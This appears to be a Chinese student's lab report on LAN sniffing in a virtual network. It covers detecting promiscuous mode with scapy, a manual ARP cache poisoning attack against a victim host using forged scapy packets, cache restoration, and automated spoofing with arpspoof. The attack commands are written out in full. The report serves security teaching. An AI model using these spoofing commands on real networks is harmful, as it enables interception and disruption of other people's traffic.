










# 实验四 网络监听

## 实验环境

* 攻击者主机：kali
08:00:27:f3:18:fd / eth0
172.16.111.131
* 受害者主机：debian
08:00:27:da:d1:ba / enp0s3
172.16.111.105
* 网关：Debain
08:00:27:e6:f2:68 / enp0s9
172.16.111.1
* 网络拓扑如下
  
  
  

## 实验: 检测局域网中的异常终端

* ```shell
    # 在受害者主机上检查网卡的「混杂模式」是否启用
    ip link show enp0s3
    # 2: enp0s3: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP mode DEFAULT group default qlen 1000
    #     link/ether 08:00:27:aa:ff:3e brd ff:ff:ff:ff:ff:ff

    # 在攻击者主机上开启 scapy
    sudo scapy

    # 在 scapy 的交互式终端输入以下代码回车执行 受害者主机 ip
    pkt = promiscping("172.16.111.105")

    # 回到受害者主机上开启网卡的『混杂模式』
    # 注意上述输出结果里应该没有出现 PROMISC 字符串
    # 手动开启该网卡的「混杂模式」
    sudo ip link set enp0s3 promisc on

    # 此时会发现输出结果里多出来了 PROMISC 
    ip link show enp0s3
    # 2: enp0s3: <BROADCAST,MULTICAST,PROMISC,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP mode DEFAULT group default qlen 1000
    #     link/ether 08:00:27:aa:ff:3e brd ff:ff:ff:ff:ff:ff

    # 回到攻击者主机上的 scapy 交互式终端继续执行命令
    # 观察两次命令的输出结果差异
    pkt = promiscping("172.16.111.105")

    # 在受害者主机上
    # 手动关闭该网卡的「混杂模式」
    sudo ip link set enp0s3 promisc off
    ```
* 结果展示
  * 由结果可知受害者主机未开启混杂模式时，攻击者使用 promiscping 进行发包探测，结果没有得到 arp 响应。当受害者主机开启了混杂模式后，攻击者使用 promiscping 进行发包探测，可以得到 arp 响应。
  * 
  * 

## 实验：手工单步“毒化”目标主机的 ARP 缓存

* ```shell
  # 获取当前局域网的网关 MAC 地址
  # 构造一个 ARP 请求
  arpbroadcast = Ether(dst="ff:ff:ff:ff:ff:ff")/ARP(op=1, pdst="172.16.111.1")

  # 查看构造好的 ARP 请求报文详情
  arpbroadcast.show()

  # ###[ Ethernet ]###
  #   dst= ff:ff:ff:ff:ff:ff
  #   src= 08:00:27:f3:18:fd
  #   type= ARP
  # ###[ ARP ]###
  #      hwtype= 0x1
  #      ptype= IPv4
  #      hwlen= None
  #      plen= None
  #       op= who-has
  #      hwsrc= 08:00:27:f3:18:fd
  #      psrc= 172.16.111.131
  #      hwdst= 00:00:00:00:00:00
  #      pdst= 172.16.111.1

  # 发送这个 ARP 广播请求
  recved = srp(arpbroadcast, timeout=2)

  # 网关 MAC 地址如下
  gw_mac = recved[0][0][1].hwsrc

  # 伪造网关的 ARP 响应包
  # 准备发送给受害者主机 172.16.111.105
  # ARP 响应的目的 MAC 地址设置为攻击者主机的 MAC 地址
  arpspoofed=Ether()/ARP(op=2, psrc="172.16.111.1", pdst="172.16.111.105", hwdst="08:00:27:f3:18:fd")

  # 发送上述伪造的 ARP 响应数据包到受害者主机
  sendp(arpspoofed)
    ```

* 查看毒化之前和之后的受害者主机 ARP 缓存,发现毒化之后网关对应的 MAC 地址为攻击者主机的 MAC 地址
  *  
* 受害者主机 `ping baidu.com`,网关进行抓包。可以观察到无法 ping 通，抓包后发现受害者主机发送的数据报，在链路层的目的地址为攻击者的 MAC 地址，而非网关的 MAC 地址。
  *  
  * 
* 恢复受害者主机的 ARP 缓存记录
* ```shell
    ## 伪装网关给受害者发送 ARP 响应
    restorepkt1 = ARP(op=2, psrc="172.16.111.1", hwsrc="08:00:27:e6:f2:68", pdst="172.16.111.105", hwdst="08:00:27:da:d1:ba")
    sendp(restorepkt1, count=100, inter=0.2)
    ## （可选）伪装受害者给网关发送 ARP 响应
    restorepkt2 = ARP(op=2, pdst="172.16.111.1", hwdst="08:00:27:e6:f2:68", psrc="172.16.111.105", hwsrc="08:00:27:da:d1:ba")
    sendp(restorepkt2, count=100, inter=0.2)

    ```
    * 恢复成功，抓包后可以看到具体的100个 ARP 响应包
    * 
    * 
## 实验：使用自动化工具完成 ARP 投毒劫持实验

* 使用自动化工具 arpspoof
* ```shell
  arpspoof -i eth0 -t 172.16.111.105 172.16.111.1
  ```
* 结果展示
  * 可以看到受害者主机 ARP缓存被毒化，网关对应的物理地址为攻击者 MAC 地址
  * 受害者主机 `ping baidu.com` 无法连通
  * 

## 遇到的问题

* scapy 模块发送数据包时Errno1 [operation not permitted]
  * 提升权限 `sudo scapy` 
* 受害者主机 Debian 有网关的 STALE 记录，手动毒化失败 
  * 构造 ARP 包使未加上 链路层数据帧格式，导致发送失败
  * ```shell
        # 进入scapy
        arpspoofed=Ether()/ARP(op=2, psrc="172.16.111.1", pdst="172.16.111.105", hwdst="08:00:27:f3:18:fd")
    ```

* 自动化工具 arpspoof kali 下载失败
  * 下载 dsniff
  * ```shell
        sudo apt install dsniff
      ```
* 使用 arpspoof 命令报错：arpspoof: libnet_open_link(): UID/EUID 0 or cap
  * 权限不够
  * ```shell
      # 使用 sudo 开启 scapy
      sudo scapy
      # 使用arpspoof
    ```